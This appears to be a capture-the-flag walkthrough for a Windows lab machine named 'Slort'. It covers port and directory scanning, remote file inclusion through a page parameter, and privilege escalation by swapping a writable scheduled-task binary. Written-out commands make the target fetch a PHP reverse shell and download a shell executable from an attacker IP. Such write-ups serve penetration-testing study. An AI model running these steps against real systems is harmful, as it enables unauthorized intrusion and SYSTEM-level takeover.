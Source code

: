 # Slort

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.53 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 21:12 +08
Nmap scan report for 192.168.233.53
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Fail

Does not allow anonymous logins.

### RFI --> User Shell

Port 4443 and 8080 host the same service:

<figure><img src="../../../.gitbook/assets/image (3107).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on the site and found a few directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.233.53:8080 -t 100                  
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.233.53:8080
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/06/30 21:18:11 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 345] [--> http://192.168.233.53:8080/img/]
/site                 (Status: 301) [Size: 346] [--> http://192.168.233.53:8080/site/]
<TRUNCATED>
```

The `/site` directory contained a basic corporate page, but the most interesting part was the URL:

<figure><img src="../../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>

This looks like it's vulnerable to a file inclusion exploit. I tested this and it is RFI for this case:

<figure><img src="../../../.gitbook/assets/image (2386).png" alt=""><figcaption></figcaption></figure>

We can grab a PHP Reverse shell for Windows from this page:

{% embed url="https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php" %}

Afterwards, we just need to execute it:

```
$ curl http://192.168.233.53:8080/site/index.php?page=http://192.168.45.161/rev.php
```

<figure><img src="../../../.gitbook/assets/image (2300).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### Cronjob --> SYSTEM Shell

The `C:\` directory contained a `Backup` folder that looked interesting:

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp

C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
```

`info.txt` basically told us what to do:

```
C:\Backup>type info.txt
type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt

C:\Backup>icacls TFTP.EXE
icacls TFTP.EXE
TFTP.EXE BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files
```

We can modify the `TFTP.EXE` file and replace it with our own reverse shell to get a SYSTEM shell after the scheduled task executes.

```
C:\Backup>move TFTP.EXE old.exe
move TFTP.EXE old.exe
        1 file(s) moved.

C:\Backup>powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE 
powershell -c wget 192.168.45.161/shell.exe -Outfile TFTP.EXE
```

After a few minutes, the task would execute and give us a administrator reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (2503).png" alt=""><figcaption></figcaption></figure>

Rooted!
